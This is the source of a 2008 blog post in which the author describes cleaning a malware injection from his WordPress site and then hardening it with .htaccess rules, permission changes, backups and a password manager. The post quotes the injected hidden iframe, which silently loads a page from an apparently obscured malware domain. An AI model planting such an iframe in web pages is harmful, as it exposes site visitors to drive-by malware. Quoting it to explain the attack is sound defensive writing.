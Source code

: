```yaml
---
layout: post
title: Secure your Wordpress, mine was attacked
date: 2008-07-09 12:02:37.000000000 +05:30
type: post
parent_id: '0'
published: true
password: ''
status: publish
categories:
- General
tags:
- ".htaccess"
- ".htpasswd"
- avwav.com
- Hacked
- Keepass
- KeepassX
- Malware
- Security
- wordpress
meta:
  _edit_last: '56'
  dsq_thread_id: '135616970'
  bitly_short_url: http://j.mp/jOd94j
  retweet_cache: '1309547869:0'
  trx_addons_post_views_count: '79'
author:
  login: Brajeshwar
  email: brajeshwar@gmail.com
  display_name: Brajeshwar
  first_name: Brajeshwar
  last_name: Oinam
permalink: "/2008/malware-site-attack-wordpress-install/"
excerpt: I re-did the whole Wordpress Installation. However, I wasn't worried because
  my "uploads" are elsewhere, Database was not infected and is back-up everyday by
  mailing it to myself and archived instantly with Gmail.
---
```

<div class="figure"><img src="/static/2008/07/air-security.jpg" alt="Adobe AIR and Security" />
<p class="credit"><abbr class="type" title="Photograph">Photo</abbr> by <cite><a href="http://www.flickr.com/photos/robmcm/1805075589/">Rob</a></cite></p>
<p class="caption"><em class="title">Web Security</em>A must for anyone who have a web presence.</p>
</div>

<p>I woke up today morning to find that my site feed wasn't validating and the XMLRPC was not responding when I tried to update <a href="http://www.red-sweater.com/marsedit/">MarsEdit</a>. Upon doing a quick "View Source" I found a foreign code lodged on top of my site's header. I knew instantly that it shouldn't be there and that something is wrong. The code was @<iframe src="http://xxxxxyyyyyzzzz.com/3332.htm" style="display:none">@. Here is a <a href="http://www.malwaredomainlist.com/mdl.php?sort=Date&search=&colsearch=All&ascordesc=DESC&quantity=All&page=0">list of malware sites</a>.</p>
<p>The sane action was to look if it is infecting the whole site or just the Wordpress Install (I'm on <strong>Wordpress 2.5.1</strong>). After finding it in just the Wordpress powered section of the site, I went ahead and did the following action to remove the code and to prevent further complications to my Wordpress Installation.</p>
<p><strong>PREPARE</strong></p>
<p>* Jot down the list of plugins I need<br />
* Back-up Theme<br />
* Back-up "config.php"<br />
* Back-up and downloaded the Database with <a href="http://www.ilfilosofo.com/blog/wp-db-backup">Wordpress Database Backup</a><br />
* You should back-up @/wp-content/uploads/@ if you use Wordpress to upload your files. (see below how I manage my files)</p>
<p><strong>REFRESH</strong></p>
<p>Then, I re-did the whole Wordpress Installation. However, I wasn't worried because my "uploads" are elsewhere, Database was not infected and is back-up everyday by mailing it to myself and archived instantly with Gmail. Here is what I did</p>
<p># Delete the whole "wp" folder. Yes, I always make it a point that the whole Wordpress Install files are inside a separate folder.<br />
# Upload a fresh set of Wordpress files onto "w" (you can have any folder you like)<br />
# Upload Plugins<br />
# Upload Theme<br />
# Upload "wp-config.php"</p>
<p>That's it. With a fresh Wordpress Install, the script/code injection is gone and my Wordpress Installation is back to normal.</p>
<p><strong>EXTRA PRECAUTION</strong></p>
<p>I decided to take some extra precaution and secure my Wordpress Installation henceforth. Here are few things I did in addition to installation a fresh new Wordpress Installation.</p>
<p><strong>Take care that none of your folders are public-writa-able</strong></p>
<p>Make sure that none of your folders are Public-Write allowed (CHMOD 777). There are instances when you need to set your folders to Write mode with CHMOD 777 (everybody writes) but remember to set it back to 755 (only owner writes) when not needed or at least CHMOD 775 (owner and group writes).</p>
<p><strong>Restrict access to "wp-admin" with .htaccess</strong></p>
<p>It is pretty easy to drop a <strong>.htaccess</strong> to your "wp-admin" folder so only you or few of your editors/authors can access that folder. This way, you'll need to use 2 passwords to login to your Wordpress Admin. Anyway, I use Keychain to remember them, so I need to type just once. This is what I have in my <strong>.htaccess</strong> file;</p>
<pre name="code" class="html">
AuthUserFile /path-to-file/outside-of-your-site-folder/.htpasswd
AuthName "You need to have an access credential!"
AuthType Basic
require user Brajeshwar
</pre>
<p>You'll need a file <strong>.htpasswd</strong> which should contain a Username:Password pair. Remember, the password is hashed here and is not what you see. There are lots of <strong>.htpasswd</strong> password generators. Use one of them;</p>
<p>* <a href="http://www.xs4all.nl/~remcovz/htpasswd.html">XS4All Password Generator</a><br />
* <a href="http://www.sherylcanter.com/encrypt.php">Username:Password Creator for HTPASSWD</a><br />
* <a href="http://www.htaccesstools.com/htpasswd-generator/">htpasswd Generator</a></p>
<p><em>Note:</em> You can have multiple Username:Password pairs by having as many as you want in separate lines.</p>
<p>Now, drop this <strong>.htpasswd</strong> file in your "/path-to-file/outside-of-your-site-folder/". See to it that this is not in your site folder (e.g. www, public_html) but outside of that which only you have access and not from the website.</p>
<p>Many Wordpress advocates and experts alike have talked about securing your Wordpress Installation and so I won't go deeper than what I've already written above. It's is your choice, how paranoid you can get. Nonetheless, as we're already here, let me give you another bonus tip.</p>
<p><strong>Prevent comment spam by denying access to no-referrer requests</strong></p>
<p>Add this in your <strong>.htaccess</strong> Redirect section.</p>
<pre name="code" class="html">
RewriteEngine On
RewriteBase /
RewriteCond %{REQUEST_METHOD} POST
RewriteCond %{REQUEST_URI} .wp-comments-post\.php*
RewriteCond %{HTTP_REFERER} !.*brajeshwar.com.* [OR]
RewriteCond %{HTTP_USER_AGENT} ^$
RewriteRule ^(.*)$ ^http://wordpress.org/$ [R=301,L]
</pre>
<p><em>Note:</em> Change that brajeshwar.com to your domain.</p>
<p><strong>HOW I MANAGE MY FILES (MEDIA, IMAGES, DOWNLOADS)</strong></p>
<p>As mentioned above, I have my own way of managing files which I felt is effective and easy to move around if I need to change host or any other eventuality may arise.</p>
<p><strong>Separate sub-domain for media files (images, audio, video)</strong></p>
<p>Having these files on a separate sub-domain allows me to move this anywhere I like and just do a DNS-IP Redirect or a CNAME change to have this located anywhere. So, my articles will always point to the sub-domain and thus always works wherever I move the media files (different location or servers). Currently, they are hosted on <a href="http://aws.amazon.com/s3/">Amazon S3</a>. Btw, I'm likely to write an article for <a href="http://labnol.org/">Digital Inspiration</a>, for non-geeks and common-users on how to use Amazon S3 the easy way.</p>
<p><em>What if you've used /wp-content/uploads/ throughout and you want to change it now?</em></p>
<p>Easy! In your <strong>.htaccess</strong> file, add a perma-redirect by adding this code</p>
<p>@RewriteRule ^wp-content/uploads(.*)$ http://media.brajeshwar.com.s3.amazonaws.com$1 [L,R=301]@</p>
<p>This should now perma-redirect all reference to /uploads/ to the corresponding new location.</p>
<p><strong>Backup DB daily or Weekly</strong></p>
<p>If your site is busy and you blog regularly, have a daily backup of your Database mailed to you or use weekly if your site is not that prolific. <a href="http://www.ilfilosofo.com/blog/wp-db-backup">Wordpress Database Backup</a> can email you a back-up daily, weekly or monthly. I've it mailed to my Gmail Account and set a filter in Gmail to Archive it as it arrives.</p>
<p><strong>Wordpress Theme</strong></p>
<p>Of course, as I always use my own theme, I've my local copy and another on my SVN server. So, always have a local copy of your theme.</p>
<p><strong>Wordpress Plugins</strong></p>
<p>Don't even worry about them unless you've written one yourself or have modified one. They're all everywhere or at-least well preserved at <a href="http://wordpress.org/extend/plugins/">Wordpress Plugins</a>.</p>
<p><strong>Keepass</strong></p>
<p>While on the topic of security, let me tell you that I'm a die-hard fan of <a href="http://brajeshwar.wpengine.com/2005/keepass-password-safe/">Keepass</a> and now <a href="http://www.keepassx.org/">KeepassX</a> on the Mac. There is even a <a href="http://keepass.info/">Linux version</a> and the encrypted file which contains your passwords will work on all the Platforms. This makes it easy to have access to the plethora of passwords even when you're away from your Mac and in the wild where Windows is pretty common. At the time of writing this article, I've harvested over 2000+ passwords used on various sites and applications and all have a different password. You can either use a Master Password or even a Key Disc to unlock KeepassX, making it rather secure.</p>
<p>That's pretty much it. Feel free to comment, ask questions and I might be able to discuss further.</iframe></p>
